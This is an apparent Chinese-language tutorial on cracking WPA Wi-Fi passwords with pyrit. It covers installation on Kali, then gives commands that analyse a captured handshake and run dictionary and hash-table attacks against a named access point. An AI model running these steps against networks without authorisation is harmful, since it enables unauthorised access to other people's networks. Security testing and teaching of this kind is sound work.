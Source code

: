 # WPA渗透-pyrit：GPU加速_Hash-table

## 1.pyrit工具介绍

pyrit是一款开源且完全免费的软件，任何人都可以检查，复制或修改它。它在各种平台上编译和执行，包括FreeBSD、MacOS X和Linux作为操作系统以及x86、alpha、arm等处理器。

使用pyrit工具最大的优点，在于它可以使用除CPU之外的GPU运算加速生成彩虹表，本身支持抓包获取四步握手过程，无须使用airodump抓包，如果已经通过ariodump抓取数据，也可以使用pyrit进行读取。

## 2.安装pyrit

1.修改更新源

```
vim /etc/apt/sources.list

deb http://mirrors.ustc.edu.cn/debian/ buster main contrib non-free
deb http://mirrors.ustc.edu.cn/debian/ buster-updates main contrib non-free
deb http://mirrors.ustc.edu.cn/debian/ buster-backports main contrib non-free
deb http://mirrors.ustc.edu.cn/debian-security buster/updates main contrib non-free
```

2.更新安装源

`apt-get update && apt-get upgrade`

3.下载pyrit

`apt-get install pyrit`

![image.png](https://image.201068.xyz/assets/4919430750de4c8290143fbca1cb8e75.png)

## 3.安装scapy到指定目录步骤

1、下载scapy：

`wget -v https://github.com/secdev/scapy/archive/v2.3.2.tar.gz`

或者将附件里的scapy-2.3.2.tar.gz拷贝到kali

2、解压后进入目录执行：

```
tar -xzvf tar -xzvf scapy-2.3.2.tar.gz
cd scapy-2.3.2 
python2 setup.py build
```

3.安装

`python2 setup.py install`

![image.png](https://image.201068.xyz/assets/2327d8c42b754d94aca354023bb40144.png)

## 4.渗透wifi

1.分析握手包信息

```
pyrit -r cap包 analyze
-r：pcap格式的数据包捕获源
analyze：分析数据包捕获文件

pyrit -r wpa-1-01.cap analyze
```

![image.png](https://image.201068.xyz/assets/20c48a2d1b754004a62b09bd410b92e9.png)

2.密码字典渗透WiFi

```
pyrit -r 握手包 -i 字典 -b bssid attack_passthrough
-i：输入的文件名
-b：按BSSID筛选AccessPoint
attack_passthrough：用文件中的密码攻击握手

pyrit -r wpa-1-01.cap -i /root/wifi/pwd.txt -b d8:24:bd:79:18:0b attack_passthrough
```

![image.png](https://image.201068.xyz/assets/b3e8a66de47e4b42b7aefa54b1bd8b81.png)

3.hash-table加速渗透wifi

```
pyrit -r 握手包 -i 哈希列表 -b bssid attack_cowpatty
attack_cowpatty：攻击一个来自cowpatty文件的PMK握手

pyrit -r wpa-1-01.cap -i /root/wifi/pwdhash -b d8:24:bd:79:18:0b attack_cowpatty
```

![image.png](https://image.201068.xyz/assets/7ac4842f07af45edb5f292983a01215a.png)